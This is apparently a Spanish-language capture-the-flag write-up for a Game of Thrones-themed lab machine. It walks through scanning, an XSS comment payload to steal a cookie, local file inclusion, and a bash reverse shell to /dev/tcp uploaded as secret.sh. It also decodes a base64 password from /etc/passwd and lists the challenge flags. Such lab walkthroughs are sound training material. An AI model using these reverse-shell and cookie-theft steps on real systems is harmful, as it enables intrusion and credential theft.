# Reto 4 - Aerys II

Herramientas utilizadas:
- nmap
- gobuster
- base64
- editthiscookie

<p align="center">  </p>

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta nmap para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.

```
nmap <ip_mv> -sCV -Pn -p-
```
<p align="center">  </p>

Utilizamos la herramienta ```gobuster``` para realizar una búsqueda de archivos y directorios de interés en la web.
```
gobuster dir -u http://ip_mv -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .js,.txt,.php
```
```
index.php
index.html
test.php
comentarios.php
comments.txt
directory
```
Accedemos al **index.php** y nos muestra el siguiente contenido de la web:

<p align="center">  </p>

Accedemos al **comentarios.php** y nos muestra el siguiente contenido de la web:

<p align="center">  </p>

Nótese que en **comentarios.php** se nos proporciona una url a la que se redirecciona si hacemos click en **Jardin Real**. Tras un análisis realizado se encontró que la web era vulnerable a XSS, por tanto se procedió a explotar la vulnerabilidad.
```
#Enviar en el comentario
<script>document.write(' ')</script>
```
```
#Ponerse en escucha
python3 -m http.server 80
```
```
#Cookie encontrada
user=Unbowed,Unbent,Unbroken
```
Agremamos la url que se nos proporcionó al **/etc/hosts** y accedemos a la url

<p align="center">  </p>

Como podemos observar, no tenemos permisos para acceder al contenido. Sin embargo, estableciendo la cookie que hemos encontrado y refrescando la página, obtenemos la primera flag:

<p align="center">  </p>

**Primera flag:** ```flag{j4rd1n-Alc4z4r}```

Observamos una nueva url, la añadimos a nuestro fichero /etc/hosts y la visitamos.

<p align="center">  </p>

Al solicitar la versión en español de la página, vemos un mensaje curioso. En este mensaje es importante destacar: 
- Las iniciales LFI en la conversación, que parecen indicar el camino hacia una vulnerabilidad de este tipo (Local File Inclusion).
- Los nombres de los ficheros que debemos acceder: flag.txt y access.txt.
- La palabra clave **file**.

Probamos directamente con el fichero **flag.txt** (file=flag.txt) y obtenemos la segunda flag del reto:

<p align="center">  </p>

**Segunda flag:** ```flag{D0n-P3dr0}```

Probamos luego con el fichero **access.txt** (file=access.txt) y obtenemos otra url con unas credenciales. Agregamos el dominio al **/etc/hosts** y accedemos a este. Al acceder a la url se nos mostró un panel de login, introducimos las credenciales y listo, nos lleva hacia un formulario para subir ficheros.:

<p align="center">  </p>

Se especifica que solo secret.sh funcionara de forma correcta. Por lo tanto, lo que hacemos es subir un fichero .sh con un codigo bash que nos permita entablarnos una reverse shell y accedemos a él a través del parámetro file en el index.php del **dominio don-pedro.doran.got**

<p align="center">  </p>

```
#Fichero secret.sh
bash -i >& /dev/tcp/ip_mipc/puerto 0>&1
```
```
#Escuchar con netcat
nc -nlvp 
```
```
#Listar la tercera flag del reto
cat /home/www-data/flag.txt
flag{Cu4rto-R34L-4lT0}
```
Dentro de la máquina, listamos el contenido del **/etc/passwd** y encontramos al usuario **dorian** con su contraseña codificada en base64.
```
doran:x:1001:1001:,,,,RDByNG4yMDI0Kgo=:/home/doran:/bin/bash
```
```
#Decodificar contraseña
echo "RDByNG4yMDI0Kgo=" | base64 -d
```
```
doran
D0r4n2024*
```

Accedemos por ssh como usuario doran y estamos dentro. En este punto tenemos 2 ficheros, **flag.txt** y **reto-final.txt**. No podemos obtener la flag, asi que revisamos el **reto-final.txt** el cual nos pide un nombre. 

<p align="center">  </p>

Googleamos ```Traición dorne Juego de Tronos``` y encontramos el nombre de **Ellaria** y se lo proporcionamos al fichero **reto-final.txt** lo cual nos proporciona la última flag del reto.

<p align="center">  </p>

**Última flag:** ```flag{0=;;;D0rn3;;;>}```
